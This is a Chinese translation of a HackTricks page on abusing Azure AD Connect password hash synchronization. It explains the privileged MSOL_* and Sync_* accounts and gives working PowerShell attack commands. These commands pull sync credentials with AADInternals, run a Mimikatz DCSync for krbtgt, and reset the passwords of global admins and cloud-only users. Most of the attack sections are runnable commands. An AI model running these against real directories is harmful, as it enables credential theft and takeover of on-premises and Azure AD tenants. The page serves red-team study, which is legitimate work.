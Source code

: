 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

**密码哈希同步**是用来实现混合身份验证的登录方法之一。**Azure AD Connect**将用户密码的哈希的哈希，从本地Active Directory实例同步到基于云的Azure AD实例。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来同步本地AD与Azure AD的**最常用方法**。

所有**用户**和密码哈希的**哈希**都从本地同步到Azure AD。然而，**明文密码**或**原始**哈希**不会**发送到Azure AD。\
此外，**内置**安全组（如域管理员等）**不会**同步到Azure AD。

**哈希同步**每**2分钟**发生一次。然而，默认情况下，**密码过期**和**账户过期**在Azure AD中**不会同步**。所以，一个本地密码已过期（未更改）的用户可以继续使用旧密码**访问Azure资源**。

当本地用户想要访问Azure资源时，**认证发生在Azure AD上**。

**PHS**是诸如**身份保护**和AAD域服务等功能所必需的。

## 枢纽转移

配置PHS时，一些**特权账户**会自动**创建**：

* 账户 **`MSOL_<installationID>`** 会自动在本地AD中创建。该账户被赋予**目录同步账户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中拥有**复制（DCSync）权限**。
* 在Azure AD中创建了一个账户 **`Sync_<on-prem ADConnect Server名称>_installationID`**。该账户可以**重置任何用户**（已同步或仅限云）在Azure AD中的密码。

上述两个特权账户的密码**存储在SQL服务器**上，该服务器安装了**Azure AD Connect。**管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，它包含本地AD中**`MSOL_*`** 用户的密码和AzureAD中**Sync\_\*** 的密码。因此，危及这些信息可能会提升到AD和AzureAD的权限。

您可以在[这个演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD connect服务器**

如果**安装了Azure AD connect的服务器**加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过攻破 **`Sync_*`** 账户，可以**重置**任何用户（包括全局管理员）的密码
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
它也可以**只修改云用户的密码**（即使这是出乎意料的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储此用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，**同步**用户有权限这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### 无缝 SSO

可以将无缝 SSO 与 PHS 一起使用，这对其他滥用行为是脆弱的。请在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 系列
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
